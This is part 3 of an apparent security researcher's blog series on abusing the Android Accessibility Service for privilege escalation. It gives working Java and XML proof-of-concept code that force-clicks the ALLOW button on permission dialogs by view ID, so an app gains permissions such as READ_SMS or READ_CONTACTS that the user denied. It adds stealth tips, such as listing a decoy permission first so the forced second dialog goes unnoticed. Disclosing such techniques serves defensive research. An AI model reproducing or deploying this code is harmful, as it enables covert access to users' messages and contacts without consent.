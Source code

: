 ## About Android Accessibility Service - Part 3

### [~$ cd ..](../)

### ~$ ls

* [How_an_Android_app_could_escalate_its_privileges.txt](./index)
* [How_an_Android_app_could_escalate_its_privileges_Part2.txt](./part2)
* How_an_Android_app_could_escalate_its_privileges_Part3.txt

### ~$ cat How_an_Android_app_could_escalate_its_privileges_Part3.txt

For this part, I changed the way the app obtains more permissions, making it stealthier. The trick here is to explicitly ask for at least two permissions, let the user
choose for the first one, and force the click on the second one. If the device is fast enough, we cannot really see that a second window has spawned and has been immediately closed.

The only suspicious thing is that popups are numbered, and the user will only see clearly the first one, if there are only two. Actually, I tried with three permissions, but on my slow
emulator, only the second one was "skipped", which is clearly suspicious.

### Configuration

The Manifest remains the same, I still ask for **READ_SMS** and **READ_CONTACTS**. However, the configuration file is modified, because we don't need to listen
for events coming from our app or Settings, and we try to catch `click` events. Furthermore, I added the flag `flagReportViewIds`:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeViewClicked"
>	android:packageNames="com.google.android.packageinstaller"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"
>	android:accessibilityFlags="flagReportViewIds"/>  
> ```

### Main activity

In the main activity, as usual, we try to detect if accessibility service is enabled. In this example, we only have to call `ActivityCompat.requestPermissions`
( `setContentView` doesn't need to be in the `else` statement actually)

> ```java
>@Override
>protected void onCreate(Bundle savedInstanceState) {
>	super.onCreate(savedInstanceState);
>	String[] perms = getRequestedPermissions(this);
>	if (perms != null && perms.length != 0 && isAccessibilityServiceOn())
>		ActivityCompat.requestPermissions(this, perms, 1);
>	else
>		setContentView(R.layout.activity_main);
>}
> ```

and `getRequestedPermissions` returns permissions asked in the Manifest:

> ```java
>private String[] getRequestedPermissions(){
>	PackageInfo info = null;
>	try {
>		info = getPackageManager().getPackageInfo(getPackageName(), PackageManager.GET_PERMISSIONS);
>	} catch (PackageManager.NameNotFoundException e) {
>		e.printStackTrace();
>	}
>	return info == null ? null : info.requestedPermissions;
>}
> ```

Then, the routine `ActivityCompat.requestPermissions(this, perms, 1)` will show one popup for each permission (that's the reason why they are numbered). The first parameter
is the asking activity (this one), and the last integer is an identifier, useless here since we don't use `onRequestPermissionsResult`. 

### The accessibility service

Once again, the code is simpler, because we don't need to browse through settings and click on certain items. The idea is very simple: for each permission,
the package manager will display a dialog box, with a short message, a picture, and two buttons: **ALLOW** and **DENY**. We try to capture the click on one of these two
buttons, and force the click on **ALLOW**. Then, this click will affect the next popup, and the next permission will be granted. Since we cannot ensure that the language
of the device is English, we use views' identifiers to know where to click, and which widget has been clicked.

The two interesting widgets have these ids:

> ```java
>private static final String DENY_BUTTON = "com.android.packageinstaller:id/permission_deny_button";
>private static final String ALLOW_BUTTON = "com.android.packageinstaller:id/permission_allow_button"; 
> ```

_That is the reason why I used the flag `flagReportViewIds`._

In `onAccessibilityEvent`, we don't need to filter, since there is only one registered type of event on one app. Once again, the view is recursively scanned,
and `true` is returned if the button has been clicked:

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	parseView(accessibilityEvent.getSource());
>}
>
>private boolean parseView(AccessibilityNodeInfo node){
>	if (node == null)
>		return false;
>	node.refresh();
>	for(int i = 0; i< node.getChildCount(); i++){
>		if (parseView(node.getChild(i)))
>			return true;
>	}
>	if (node.getText() != null){
>		if (getRootInActiveWindow() != null && node.getViewIdResourceName() != null &&
>			(node.getViewIdResourceName().equalsIgnoreCase(DENY_BUTTON) || node.getViewIdResourceName().equalsIgnoreCase(ALLOW_BUTTON))){
>				
>			List<AccessibilityNodeInfo> allow = getRootInActiveWindow().findAccessibilityNodeInfosByViewId(ALLOW_BUTTON);
>			if (allow != null && allow.size() != 0) {
>				allow.get(0).performAction(AccessibilityNodeInfo.ACTION_CLICK);
>			}
>		}
>	}
>	return false;
>}
> ``` 

**NOTE**: the line `node.refresh()` is required, see [here](https://stackoverflow.com/questions/36793154/accessibilityservice-not-returning-view-ids)

### So what ?

In the video, you can see that **READ_CONTACTS** has been granted, whereas **READ_SMS** has been explicitly denied by the user. Since my emulator is really slow,
we can see that a second window has spawned with the second permission. The idea is then to put first in the Manifest a "useless" permission, and the expected one.

Two things are quite interesting in this example:
* we don't care about the language of the device
* if the user doesn't pay attention to the message "1 of xxx" in the dialog box, and if the device is not too slow, the second window could be unnoticed. In the
previous examples, it was clearly visible that the app was trying to do bad things, because it was not fast enough. Here, we let the user decide, and it makes a
real difference.

Video:

[![video3_poc](video3.png)](https://youtu.be/vs057e_NE9U)

